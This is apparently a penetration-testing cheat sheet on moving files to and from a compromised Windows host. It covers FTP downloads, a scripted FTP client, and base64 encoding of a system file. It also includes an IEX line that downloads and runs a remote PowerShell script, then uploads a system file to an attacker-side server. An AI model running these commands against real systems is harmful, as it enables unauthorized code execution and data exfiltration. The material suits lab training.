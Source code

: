 <code class="invert">FTP Downloads</code>
```bash
redparrot@parrot~$ sudo python3 -m pyftpdlib --port 21
```

```powershell
PS C:\Users> (New-Object Net.WebClient).DownloadFile('ftp://<FTP_SERVER_IP>/file.txt', 'C:\Users\Public\ftp-file.txt')
```

Create a Command File for the FTP Client and Download the Target File.  
Helpful in scenarios where we don't have an interactive shell in the remote server.
```powershell
C:\Users> echo open <FTP_SERVER_IP> > ftpcommand.txt
C:\Users> echo USER anonymous >> ftpcommand.txt
C:\Users> echo binary >> ftpcommand.txt
C:\Users> echo GET file.txt >> ftpcommand.txt
C:\Users> echo bye >> ftpcommand.txt
C:\Users> ftp -v -n -s:ftpcommand.txt
ftp> open <FTP_SERVER_IP>
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\Users>more file.txt
This is a test file
```

#### <span class="red-command">Uploading files from Windows to Linux</span>
<code class="invert">PowerShell Base64 Encode & Decode</code>
```powershell
# Base64 encode the /etc/hosts file using powershell
PS C:\Users> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

<BASE_64_ENCODED_CONTENTS_OF_FILE>
PS C:\Users> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
4388374325B992DEF12793500307AA34

# Decode the string in linux
echo "<BASE_64_ENCODED_CONTENTS_OF_FILE>" | base64 -d; xclip -selection clipboard
```

<code class="invert">PowerShell Web Uploads</code>
```bash
python3 -m uploadserver 8080
```

```powershell
# Upload the file to python upload server running on Linux
PS C:\Users> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\Users> Invoke-FileUpload -Uri http://192.168.49.128:8080/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```
